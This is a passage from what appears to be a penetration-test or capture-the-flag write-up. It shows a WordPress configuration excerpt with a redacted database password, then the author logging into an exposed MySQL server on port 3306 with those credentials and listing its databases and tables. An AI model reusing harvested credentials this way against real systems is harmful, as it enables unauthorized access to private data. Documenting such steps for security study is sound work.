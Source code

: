 ```sh linenums="1" hl_lines="23 26 29"
/** MySQL database password */
define( 'DB_PASSWORD', '{--REDACTED--}' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```

## <b>Gaining ADMIN account</b>

After obtaining the database credentials, I attempted to log in to `MySQL`, as our scanning process revealed that it was open on port 3306. Upon logging in, I discovered the presence of a `{--REDACTED--}` database that contained usernames and databases. 

```sql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| REDACTED           |
+--------------------+



Database changed
MySQL [REDACTED]> show tables;
+----------------------------+
| Tables_in_REDACTED         |
+----------------------------+
| REDACTED_commentmeta       |
| REDACTED_comments          |
| REDACTED_links             |
| REDACTED_options           |
| REDACTED_postmeta          |
| REDACTED_posts             |
| REDACTED_term_relationships|
| REDACTED_term_taxonomy     |
| REDACTED_termmeta          |
| REDACTED_terms             |
| REDACTED_usermeta          |
| REDACTED                   |
+----------------------------+

```
